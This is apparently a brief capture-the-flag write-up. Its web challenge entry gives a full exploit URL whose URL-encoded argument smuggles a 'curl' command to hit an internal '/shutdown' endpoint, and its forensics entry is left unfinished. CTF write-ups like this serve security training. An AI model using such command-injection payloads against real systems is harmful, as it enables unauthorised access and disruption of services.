

# Beginner's Room

## Control Panel [Web]

- modify the `aria-expanded="false"` to true
- then get the file and reverse engineer. Notice the `destroy.py` and the `/shutdown` path

URL encode the a malicious code to curl the localhost to get to `/shutdown`
`https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=%63%75%72%6C%20%2D%73%20%6C%6F%63%61%6C%68%6F%73%74%3A%33%30%30%30%2F%73%68%75%74%64%6F%77%6E`

## Secret [Forensics]
- open in kali and left click highlight over your items
- 